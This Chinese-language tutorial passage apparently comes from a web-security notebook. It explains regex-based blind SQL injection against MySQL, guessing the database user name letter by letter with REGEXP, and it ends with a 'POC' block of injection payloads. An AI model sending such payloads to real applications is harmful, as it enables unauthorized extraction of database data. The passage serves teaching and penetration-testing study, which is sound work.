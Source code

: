 除了上述使用函数的方法之外，其实我们还可以采用`正则匹配` 的方法来进行注入，因为是支持正则表达式的，比如我们可以使用：

`select user() regexp '^[a-z]';`

我们的数据库用户是`root` ，比如这里我们可以用正则表达式逐位判断是否用户名都是由小写字母组成的以及每一位是什么，比如，我们猜解第一位，当我们猜测`正确`时，返回值为`1`：

`select user() regexp '^r[a-z]';`

![](../../../.gitbook/assets/tu-pian%20%28100%29.png)

当我们猜测`不正确`时，返回值为`0` ：

`select user() regexp '^x[a-z]';`

![](../../../.gitbook/assets/tu-pian%20%2856%29.png)

由此我们就可以逐位猜解每个位置上的字母：

```text
select user() regexp '^r[a-z]';
select user() regexp '^ro[a-z]';
select user() regexp '^roo[a-z]';
select user() regexp '^root[a-z]';
...
select user() regexp '^root@localhost$';
```

POC：

```text
0' and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="test" AND user() REGEXP '^^r' LIMIT 0,1) --+
0' and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="test" AND user() REGEXP '^^ro' LIMIT 0,1) --+
...
0' and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="test" AND user() REGEXP '^^root@localhost$' LIMIT 0,1) --+
```
